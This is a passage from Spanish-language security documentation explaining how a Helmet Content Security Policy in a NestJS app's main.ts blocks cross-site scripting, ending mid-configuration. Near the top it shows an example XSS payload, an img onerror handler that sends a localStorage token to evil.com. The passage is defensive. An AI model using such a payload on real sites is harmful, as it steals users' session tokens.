```html
<!-- Atacante logra inyectar esto (bypassing sanitization) -->
<img src=x onerror="fetch('https://evil.com?token='+localStorage.getItem('token'))">
```

**Sin CSP:**
- ✅ El navegador ejecuta el script
- ✅ Token se envía a evil.com
- ❌ Usuario comprometido

**Con CSP:**
- ❌ El navegador **BLOQUEA** el script inline
- ❌ evil.com no está en la whitelist
- ✅ Usuario protegido
- 📊 Violación reportada al servidor

---

## 3. Solución Implementada

### 3.1. Configuración de Helmet + CSP

**Archivo modificado:** `src/main.ts`

```typescript
import helmet from "helmet";

async function bootstrap() {
  const app = await NestFactory.create(AppModule);

  // ✅ Helmet con CSP restrictivo
  app.use(
    helmet({
      contentSecurityPolicy: {
        directives: {
          // Solo recursos del mismo dominio por defecto
          defaultSrc: ["'self'"],

          // Scripts: solo del mismo dominio (NO inline)
          scriptSrc: ["'self'"],

          // Estilos: mismo dominio + inline (para Swagger UI)
          styleSrc: ["'self'", "'unsafe-inline'"],

          // Imágenes: mismo dominio + data URIs + HTTPS
          imgSrc: ["'self'", "data:", "https:"],

          // API calls: solo mismo dominio
          connectSrc: ["'self'"],

          // Fuentes: solo mismo dominio
          fontSrc: ["'self'"],

          // NO permitir plugins (Flash, Java, etc.)
          objectSrc: ["'none'"],

          // Media: solo mismo dominio
          mediaSrc: ["'self'"],

          // NO permitir iframes
          frameSrc: ["'none'"],

          // Base URL: solo mismo dominio
          baseUri: ["'self'"],

```